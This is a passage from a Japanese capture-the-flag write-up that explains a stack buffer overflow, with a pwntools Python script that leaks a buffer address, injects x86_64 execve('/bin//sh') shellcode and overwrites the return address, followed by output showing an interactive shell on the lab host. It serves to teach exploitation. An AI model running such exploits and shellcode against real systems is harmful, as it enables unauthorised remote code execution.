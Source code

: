 ということで保存された RBP の値の次の8バイトがリターンアドレスになると思われますので、96バイトの入力の先頭にシェルコードを、末尾の8バイトに "target | " の後に表示されるバッファのアドレスをバイト列で入力すると、リターンアドレスがバッファの先頭に書き換えられて main 関数を抜けた後にバッファの先頭にジャンプしてシェルコードを実行できそうです。そのような入力を行う Python スクリプトを作成します。

```Python
import pwn

p = pwn.remote("10.1.1.10", 13050)
buf_size = 80

# シェルコードは http://shell-storm.org/shellcode/files/shellcode-905.php の "x86_64 execveat("/bin//sh") 29 bytes shellcode" を使用
shellcode = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

data = p.recvuntil("]").decode("UTF-8")
print(data)
address_text = data[-15:-1]
print("address_text: %s" % address_text)
address_binary = int(address_text, 16).to_bytes(8, "little")
data = p.recvuntil(">").decode("UTF-8")
print(data)

payload = shellcode + (b"A" * (buf_size - len(shellcode) + 8)) + address_binary
p.sendline(payload)
p.interactive()
```

スクリプトを実行するとIPアドレス 10.1.1.10 のマシン上で /bin/sh が実行されて任意のコマンドを実行できるようになりました。

```shell
$ python3 solver.py 
[+] Opening connection to 10.1.1.10 on port 13050: Done
       |
target | [0x7ffc91ea6210]
address_text: 0x7ffc91ea6210

       |
Well. Ready for the shellcode?
>
[*] Switching to interactive mode
 jBX\xfe\xc4H\x99RH\xbf/bin//shWT^I\x89\xd0I\x89\xd2\x05AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x10\xea\x91\xfc\x7f
$ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```